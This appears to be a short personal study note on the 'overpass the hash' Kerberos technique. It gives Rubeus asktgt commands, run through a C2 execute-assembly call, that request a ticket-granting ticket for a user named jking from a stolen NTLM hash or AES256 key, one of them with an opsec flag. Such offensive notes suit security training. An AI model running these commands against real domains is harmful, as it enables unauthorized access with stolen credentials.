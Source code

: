 Overpassing the hash is when you request a users `TGT` by utilizing their `NTLM` OR `AES Hash` that we received from [[3.2 credential_Theft]]

requesting `TGT` with ntlm hashes `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap`

![[Pasted image 20231128135914.png]]
Once you have a `TGT` able to abuse [[3. Passing the Ticket]]
can also request `TGT` with `AES Hash` (i.e. Kerberos Encryption Keys)  `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap`
![[Pasted image 20231128140448.png]]
an additional way to query `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap`